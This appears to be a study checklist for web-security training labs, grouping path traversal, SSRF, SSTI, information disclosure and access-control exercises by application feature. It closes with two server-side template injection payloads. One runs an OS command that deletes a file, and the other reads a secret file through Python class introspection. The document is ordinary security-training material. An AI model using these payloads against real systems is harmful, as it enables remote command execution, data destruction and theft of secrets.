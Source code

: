    - SSRF via OpenID dynamic client registration


## **_Path Traversal_**
   - File path traversal, simple case

   - File path traversal, traversal sequences blocked with absolute path bypass

   - File path traversal, traversal sequences stripped non-recursively

   - File path traversal, traversal sequences stripped with superfluous URL-decode

   - File path traversal, validation of start of path

   - File path traversal, validation of file extension with null byte bypass



## **_View Product pages Functionality_**
### * SSRF
   - Blind SSRF with out-of-band detection

   -  Blind SSRF with Shellshock exploitation


### * SSTI
   - Basic server-side template injection

   - Server-side template injection in an unknown language with a documented exploit



### * Information Disclosure
   - Information disclosure in error messages

   - Information disclosure on debug page



## **_Promote users Functionality_**
### * Flawed Access Control
   - Multi-step process with no access control on one step

   - Referer-based access control (Promote Yourself to admin using the right referer header and your own non admin session cookie)

   - Method-based access control can be circumvented


## Configure Password-Reset Email Functionality
### * SSTI
   - Basic server-side template injection
   - _**Basic server-side template injection (code context)**_

   Tip: In this lab we used the following code to inject the template.
   ```
   {{user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')}}
   ```
   However, depending on the different code contexts and defences, we could use this code..
   ```
   {{username}}
   {{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/carlos/secret').read() }}
   ```
